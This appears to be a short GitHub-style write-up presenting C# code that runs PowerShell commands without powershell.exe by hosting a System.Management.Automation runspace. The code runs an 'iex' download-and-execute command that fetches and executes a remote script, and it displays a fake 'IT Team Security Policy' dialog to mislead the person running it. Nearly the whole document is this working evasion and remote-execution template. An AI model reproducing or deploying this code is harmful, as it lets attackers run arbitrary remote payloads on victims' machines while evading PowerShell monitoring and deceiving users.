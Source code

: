 ### Powershell Attack Without Powershell.exe
The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command and invoke PowerShell commands.
System.Management.Automation.dll file is loaded when powershell.exe open up. hence I do not rely on powershell.exe to execute OS command and Invoke powershell command, 
because We can write our own interpreter to execucate any OS Command without having powershell.exe.


```
using System;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
using System.Windows.Forms;

public class Program
{
    public static void Main()
    {

        Execution.MeMe();
        MessageBox.Show("Loading Security Services...", "IT Team Security Policy", MessageBoxButtons.YesNo, MessageBoxIcon.Question);
    }
    public class Execution
    {
        public static void MeMe()
        {
            RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
            Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
            rspace.Open();
            Pipeline pipeline = rspace.CreatePipeline();
            pipeline.Commands.AddScript("iex ((New-Object Net.WebClient).DownloadString('https://www.google.com/robots.txt'))");
            pipeline.Invoke();
        }
    }
}

```

